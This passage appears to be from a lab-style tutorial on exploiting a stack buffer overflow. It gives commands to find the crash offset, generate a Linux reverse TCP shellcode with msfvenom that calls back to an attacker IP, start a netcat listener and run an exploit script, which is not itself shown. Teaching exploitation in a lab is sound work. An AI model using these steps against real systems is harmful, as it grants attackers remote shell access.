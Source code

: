 ```bash
# Get the value of the EIP/RIP at crash (example: 0x41367241)
dmesg | tail

# Find the offset in the pattern
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41367241
```

Let's assume we found that the offset is 512 bytes.

### Step 3: Crafting the Shellcode

Now we'll use `msfvenom` to create a reverse TCP shell payload:

```bash
# Generate a reverse TCP shellcode
msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.147.135 LPORT=4444 -f python -b "\x00" -v shellcode
```

![alt text](image-3.png)

This command:
- `-p linux/x86/shell_reverse_tcp`: Specifies a payload that will connect back to us
- `LHOST=192.168.147.135`: Your attacking machine's IP address
- `LPORT=4444`: The port on your machine to connect back to
- `-f python`: Output in Python format for easy integration into our script
- `-b "\x00"`: Avoid null bytes which can terminate strings
- `-v shellcode`: Name the variable "shellcode"

### Step 4: Creating the Exploit Script

Let's create a Python script (`exploit_basic.py`) to send our crafted payload:

### Step 5: Setting Up the Listener

Before executing our exploit, we need to set up a listener to catch the reverse shell:

```bash
# Set up a netcat listener on port 4444
nc -lvp 4444
```

### Step 6: Running the Exploit

Now we execute our exploit script to send the payload:

```bash
python3 exploit_basic.py
```

If successful, the netcat listener should receive a connection, giving us shell access to the target system.

### Detailed Explanation of the Script
